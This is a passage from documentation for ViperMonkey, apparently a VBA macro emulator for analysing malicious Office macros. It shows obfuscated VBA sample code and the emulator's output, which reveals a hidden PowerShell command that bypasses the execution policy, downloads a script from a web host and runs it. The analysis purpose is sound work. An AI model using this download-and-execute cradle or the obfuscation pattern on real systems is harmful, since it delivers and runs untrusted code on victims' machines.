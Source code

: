 ```python
m4 = "; " & "Inv" & "ok" & "e-Expr" & "ession " & "$" & "a" & Chr(34) & ""

Shell m1 & m2 & m3 & m4, vbHide

WinExec "wscript powershell.exe -x run.ps1", 0

End Function

Execute
'''

context = vipermonkey.Context()
vipermonkey.eval(vba_code, context=context)

for description, actions in iteritems(context.actions):
    print(description, '====')
    for action in actions:
        print(action)
        
```
```
Shell function ====
('Execute Command', 'powershell -w hidden -exec bypass -c "$a=Invoke-WebRequest www.example.com/script.txt; Invoke-Expression $a"')
Interesting Function Call ====
('WinExec', ['wscript powershell.exe -x run.ps1', 0])
Interesting Command Execution ====
('Run', 'wscript powershell.exe -x run.ps1')
```

You may also provide your own callback function in the `Context` object to report the action.
```python
def report_shell(action, params=None, description=None):
    if action == 'Execute Command':
        print("FOUND A COMMAND: ", params)

context = vipermonkey.Context(report_action=report_shell)
vipermonkey.eval(vba_code, context=context)
```
```
FOUND A COMMAND:  powershell -w hidden -exec bypass -c "$a=Invoke-WebRequest www.example.com/script.txt; Invoke-Expression $a"
```

## Improving Speed
Parsing is the most expensive thing ViperMonkey has to do. Therefore, the `CodeBlock` objects have been designed to parse only when an attribute (`.type`, `.name`, `.params`, etc) is accessed or the `eval()` function is called. However, calling `str()` does not trigger a parse. You can take advantage of this to help speed up your processing by skipping uninteresting lines or usable lines.

```python
import re
import vipermonkey

vba_code = '''
Dim SHxPqkwrGNbtKCbuMMuOwkEnjTCFyQYVofmDhUQO As String
Dim HInhBKXjdKldXUzKfBJGXAlBvSvqyiFkewQMeKCj As String
Dim pRFxhIaLPubbdOiMdqXdORFsxSLGEoyqXCaKHNtT As String
Dim uKWKPzXumrqVToeYfOEBgPSGrPxQuHjXJJDWgfTU As String
Dim mIJOHatpQXHVoIHwnThJcipbyvwvJqJeGduHDfgY As String

Dim m1, m2, m3 As String
m1 = "he" & "ll" & Chr(111) & " "
m2 = "w" & Chr(111) & "rl" & Chr(123 Xor 31)
m3 = "!!!"
```